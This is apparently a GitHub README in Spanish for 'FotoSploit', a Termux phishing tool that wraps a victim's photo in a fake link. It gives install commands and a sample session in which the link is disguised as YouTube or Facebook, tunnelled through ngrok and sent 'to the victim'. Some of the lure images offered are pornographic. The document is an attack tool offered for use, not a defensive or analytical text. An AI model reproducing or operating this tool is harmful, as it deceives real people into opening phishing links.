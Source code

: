 # FotoSploit
    FotoSploit es un exploit que ensambla la foto
    de nuestra víctima en un enlace falso {phishing}
# Banner FotoSploit 
![Screenshot_20191202-134419_Termux~01](https://user-images.githubusercontent.com/46208706/69989850-269e8280-150a-11ea-8ebc-7a585e17ade4.jpg)
# Installation 
    pkg update && pkg upgrade -y
    pkg install -y php
    pkg install -y python2
    pkg install -y git
    git clone https://github.com/Cesar-Hack-Gray/FotoSploit 
    cd FotoSploit
    ls
    bash install.sh 
    ./FotoSploit 
    
# Screenhost
![e](https://user-images.githubusercontent.com/46208706/69989984-70876880-150a-11ea-96ef-efe7a91f54f0.jpg)
# Eye!!!
     El link portador por serveo o ngrok les informo que
     en messenger [facebook] no saca la foto de la víctima:(
     el link solo saca la foto en Whatzapp o en telegram u otro chat
     ok!
# Usage
  _____________________________________________________________________
            ___           _,.---,---.,_
            |         ,;~'             '~;,
            |       ,;                     ;,
   Frontal  |      ;                        ; ,--- Supraorbital Foramen
    Bone    |     ,'                        /'
            |    ,;                       /' ;,
            |    ; ;      .          . <-'  ; |
            |__  | ;   ______       ______   ;<----- Coronal Suture
           ___   |  '/~ ~ . ~ ~\'  |
           |     |  ~  ,-~~~^~, | ,~^~~~-,  ~  |
 Maxilla,  |      |   |        }:{        | <------ Orbit
Nasal and  |      |   l       / | \       !   |
Zygomatic  |      .~  (__,.-- .^. --.,__)  ~.
  Bones    |      |    ----;' / | \  ;-<--------- Infraorbital Foramen
           |__     \__.       \/^\/       .__
              ___   V| \                 / |V <--- Mastoid Process
              |      | |T~\___!___!___/~T| |
              |      | | IIII_I_I_I_IIII | |
     Mandible |      |  \ III I I I III,/  |
              |       \    ~~~~~~~~~~
              |         \   .       . <-x---- Mental Foramen
              |__         \.    ^    .
                            ^~~~^~~~^
  _________________________________________________________________
                    Created by @CesarHackGray
                      Usage: show options

FotoSploit> show options

 ===============
 Cesar Hack Gray
 ===============

   Comandos          descripsion

   show options      opciones
   set foto          [option]
   set title url     [Titulo]
   set view          [FACEBOOK][YOUTUBE]
   GO                Comenzar
   run               Comenzar
   exit              Salir

   set title url Cesar-Hack-Gray (example)
   set foto [youtube] [FreeFire] [PUBG]
   [Anime] [pornografia] [Bokep] [facebook]
   [/sdcard/example.jpg]


   SET FOTO :
   SET VIEW :
   SET TITLE URL :

FotoSploit> set foto /sdcard/foto.jpg
[+] FOTO => /sdcard/foto.jpg
FotoSploit> set title url Name-Victim
[+] Name => Name-Victim
FotoSploit> set view YOUTUBE
[+] VISTA => www.youtube.com
FotoSploit> GO
[+] Uploading -> /sdcard/foto.jpg...
[+] Abriendo servidores...
[+] Abriendo servidor php...
[+] Abriendo servidor ssh...
[+] Abriendo servidor ngrok..
[+] Descargando ngrok full....
[+] Obteniendo URLs..
[+] Servicio de ayuda = https://t.me/CesarGray
[+] Envia ala victima = http://localhost:5756
[+] Envia ala victima = https://1d16900a.ngrok.io
[+] Interactuando ala victima...
